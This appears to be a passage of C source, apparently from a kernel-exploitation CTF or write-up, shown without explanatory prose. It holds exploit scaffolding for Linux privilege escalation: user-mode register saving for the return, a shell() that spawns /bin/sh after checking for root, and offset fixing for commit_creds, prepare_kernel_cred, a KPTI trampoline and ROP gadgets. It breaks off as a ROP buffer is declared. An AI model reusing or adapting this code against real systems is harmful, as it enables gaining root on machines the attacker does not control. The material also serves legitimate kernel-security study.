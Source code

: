 ```c
int fd = 0;
size_t canary = 0;
size_t leak = 0;

void control();

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){

    __ksymtab_commit_creds += vmlinux_base;
    __ksymtab_prepare_kernel_cred += vmlinux_base;

    swapgs_restore_regs_and_return_to_usermode += vmlinux_base;
    kpti_trampoline = swapgs_restore_regs_and_return_to_usermode + 22;

    write_rax_rax_pop_rbp_ret += vmlinux_base;
    pop_rdi_rbp_ret += vmlinux_base;
    pop_rax_ret += vmlinux_base;

    info("__ksymtab_commit_creds" , __ksymtab_commit_creds);
    info("__ksymtab_prepare_kernel_cred" , __ksymtab_prepare_kernel_cred);
}

void get_addr(size_t to_leak , int next){

    size_t rop[0x600] = {0};
```
